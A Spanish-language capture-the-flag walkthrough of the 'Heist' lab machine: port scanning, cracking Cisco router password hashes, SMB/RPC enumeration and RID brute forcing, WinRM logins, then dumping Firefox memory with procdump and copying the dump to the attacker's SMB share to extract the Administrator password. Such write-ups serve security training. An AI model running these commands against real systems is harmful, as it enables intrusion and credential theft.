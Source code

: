 # [Easy] Heist
## Autor: David Chaparro <AuthorName>

## Solución

### Enumeración de puertos
Empezamos enumerando puertos normalmente:

```python
# Nmap 7.94SVN scan initiated Tue Sep 17 18:58:51 2024 as: nmap -p 80,135,445,5985,49669 -Pn -sVC --min-rate 5000 -oN puertos.txt 10.129.45.76
Nmap scan report for 10.129.45.76
Host is up (0.19s latency).
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-17T22:59:54
|_  start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 17 19:00:31 2024 -- 1 IP address (1 host up) scanned in 99.87 seconds
```

### Enumeración web, crackeo de contraseñas e intrusión

Vemos que hay un servicio web corriendo en el puerto 80:

![1](./assets/1.png)

![2](./assets/2.png)

![3](./assets/3.png) 

Antes de probar ataques al login, haciendo hovering, encontramos un archivo de configuración de un router cisco, que nos muestra varias contraseñas encriptadas.

 

Investigando un poco, podemos ver que las contraseñas encriptadas cisco de tipo 7 pueden ser crackeadas en esta página:

https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html

![4](./assets/4.png) 

![5](./assets/5.png) 

Ahora intentemos crackear la última contraseña hasheada, podemos intentar identificar el hash de varias maneras, como con herramientas como `hash-identifier`, `hash-id` o identificarlo con el parámetro `--identify`:

![6](./assets/6.png) 

También podríamos identificarlo mirando ejemplos propios de hashcat en esta página (filtrando por "cisco"):

![7](./assets/7.png) 

Ahora utilizamos `hashcat` para intentar crackearlo:

```terminal
hashcat -m 500 hash /usr/share/wordlists/rockyou.txt
```

![8](./assets/8.png) 

Tenemos todas las contraseñas!, y también una lista de usuarios.

Recordando los puertos abiertos en la máquina, el `445` que es el puerto de servicio `smb`, podemos utilizar la herramienta `netexec` para enumerar y verificar acceso de usuarios en diferentes servicios:

```terminal
netexec smb 10.129.18.211 -u users -p passwords --continue-on-success
```

![9](./assets/9.png) 

También podemos observar que el dominio al que pertenece el usuario `"Hazard"` es `"SUPPORTDESK"`.

Y con el parámetro `--shares` podemos enumerar las partes disponibles en el acceso del usuario 

![10](./assets/10.png)

Intentamos establecer conexión con esa parte, usando el comando:

```terminal
smbclient \\\\\10.129.45.76\\IPC$ -U Hazard --password=stealth1agent
```

![11](./assets/11.png)

Pero vemos que no podemos ejecutar comandos de enumeración.

Ahora intentamos enumerar más usuarios viendo que el puerto `135` está abierto con el protocolo `RPC`, para esto, podemos ingresar con el mismo usuario de acceso al `smb`, `Hazard:stealth1agent`. Ingresamos con el comando:

```terminal
rpcclient -U Hazard%stealth1agent 10.129.45.76
```

Y podemos ingresar varios comandos para realizar enumeración:

![12](./assets/12.png)

No hemos podido enumerar usuarios con los comandos habituales, pero podemos intentar enumerar por fuerza bruta sabiendo el `RID` del usuario `"Hazard"`, el cual es `1008` 

Si aumentamos de manera manual el `RID`, podemos ver que existen más usuarios en el dominio

![13](./assets/13.png)

También podemos descubrir estos usuarios utilizando el parámetro --rid-brute de `netexec`:

![14](./assets/14.png)

Incluso podemos observar más usuarios de esta manera.

Ahora, los incluimos en nuestra lista de usuarios e intentamos ver si algún usuario tiene acceso:

![15](./assets/15.png)

El usuario `Chase` tiene acceso con winrm!!, intentemos ingresar y obtener la flag de usuario:

```terminal
evil-winrm -u ChasE -p 'Q4)sJu\Y8qz*A3?d' -i 10.129.234.30
```

![16](./assets/16.png)

Obtenemos la flag de usuario!! Y además encontramos un archivo `"todo.txt"` que nos dice que tenemos que chequear la lista de problemas y arreglar la configuración del router.

### Escalada de privilegios

![17](./assets/17.png)

Viendo los procesos con el comando `ps` o `get-process`, podemos observar que el navegador web `firefox` está abierto y siendo utilizado, podemos intentar dumpear memoria del proceso y buscar la contraseña con la que se ingresó al portal web.

Para esto utilizamos el script `procdump64.exe`. Lo descargamos desde el link: https://learn.microsoft.com/es-es/sysinternals/downloads/procdump en nuestra máquina y lo pasamos a la máquina windows con el comando:

```terminal
upload /home/kali/Desktop/htb/machines/Heist/content/procdump64.exe
```

Y lo usamos con el siguiente comando (tomando el proceso de `firefox` que más consume recursos):

```terminal
./procdump64.exe -accepteula -ma 6156
```

Y pasamos el archivo a nuestra máquina kali para poder buscar y filtrar mejor.

Descargamos el archivo con el uso del comando `download`:

```terminal
download firefox.exe_240921_112834.dmp
```

Este comando demorará mucho el proceso de transferencia, para realizarlo de una manera más rápida, levantamos un servidor `smb` para realizar la transferencia por ese medio, para esto utilizamos la herramienta `smbserver`:

```terminal
impacket-smbserver smb $(pwd) -smb2support
```

Y en la máquina windows ingresamos el siguiente comando para pasar el archivo:

```terminal
copy firefox.exe_240921_112834.dmp \\10.10.16.19\smb\firefox.exe_240921_112834.dmp
```

Y ahora realizamos un `grep`, buscando coincidencias con la palabra `"password"` (utilizando `strings`, para que sea humanamente legible):

```terminal
strings firefox.exe_240921_112834.dmp | grep "password"
```

![18](./assets/18.png)

Encontramos la contraseña del portal web! y vemos que es de la cuenta `admin@support.htb`, pero si ingresamos  al portal web, seguimos viendo la misma página que ve el usuario invitado.

Podemos revisar si esta contraseña es válida para el usuario `Administrator` mediante `netexec`

![19](./assets/19.png)

Y efectivamente podemos ingresar con el usuario `Administrator`:

```terminal
evil-winrm -u 'Administrator' -p '4dD!5}x/re8]FBuZ' -i 10.129.234.30
```

![20](./assets/20.png)

Y leer la flag root.txt!! 🐇

